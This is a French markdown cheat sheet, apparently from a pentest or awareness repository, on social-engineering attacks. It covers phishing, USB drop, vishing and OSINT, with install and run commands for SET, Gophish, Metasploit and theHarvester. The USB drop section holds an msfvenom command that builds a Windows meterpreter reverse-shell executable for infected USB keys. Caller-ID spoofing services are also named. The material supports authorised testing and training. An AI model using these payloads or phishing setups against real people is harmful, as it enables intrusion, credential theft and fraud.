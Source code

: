 # Couche 8 – Ingénierie Sociale

## 1. Types d’attaques d’ingénierie sociale

- **Phishing**  
  Le plus courant : tromper la cible pour obtenir des identifiants ou lui faire télécharger un malware, via des emails, des sites web contrefaits, etc.

- **USB Drop**  
  Déposer des clés USB infectées sur le lieu de travail pour pousser quelqu’un à les brancher.

- **Vishing/Spear phishing**  
  Ingénierie sociale par téléphone, ou campagne ciblée très personnalisée.

- **Collecte d’information (OSINT)**  
  Rassembler un maximum de données sur la cible pour préparer une attaque plus crédible.

---

## 2. Outils et méthodes

### ⚡ Attaque : Phishing

#### Outil : **SET (Social Engineering Toolkit)**
- **Description** : Générateur d’attaques d’ingénierie sociale très complet (emails, sites de phishing, payloads…).
- **Pourquoi l’utiliser** :  
  - Scénarios automatisés, prise en main rapide
- **Installation** :  
  - `sudo apt install set` ou `git clone https://github.com/trustedsec/social-engineer-toolkit.git`
- **Commande** :  
  - `sudo setoolkit`
- **Utilisation** : Menu interactif pour choisir le type de phishing.

#### Outil : **Gophish**
- **Description** : Plateforme open-source pour des campagnes de phishing à grande échelle.
- **Installation** :  
  - Voir [getgophish.com](https://getgophish.com/)
- **Commande** :  
  - `./gophish`

---

### ⚡ Attaque : USB Drop

#### Outil : **Metasploit**
- **Description** : Générer des payloads pour infecter des clés USB (ex : reverse shell, meterpreter…).
- **Installation** :  
  - `sudo apt install metasploit-framework`
- **Commandes** :  
  - Générer un payload Windows :  
    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f exe -o shell.exe`
  - Copier `shell.exe` sur la clé USB.
- **Note** : Pour test sur un environnement isolé uniquement !

---

### ⚡ Attaque : Vishing

#### Outil : **SpoofCard / SpoofTel** (services payants, usage légal strict)
- **Description** : Permet de falsifier l’identifiant de l’appelant lors d’une attaque par téléphone.

#### Outil : **Twilio (API)**
- **Description** : Pour automatiser des appels/SMS dans le cadre de tests autorisés.

---

### ⚡ Attaque : OSINT

#### Outil : **theHarvester**
- **Description** : Collecte emails, sous-domaines, noms sur diverses sources publiques.
- **Installation** :  
  - `sudo apt install theharvester`
- **Commande** :  
  - `theharvester -d [domaine cible] -b google,bing,linkedin`

#### Outil : **Maltego**
- **Description** : Cartographie graphique de données (relations, emails, noms…)
- **Installation** :  
  - Sur [maltego.com](https://www.maltego.com/)

---

## 3. Contribution

> Expliquez chaque scénario d’attaque sociale, détaillez les outils et partagez des astuces pour la sensibilisation.
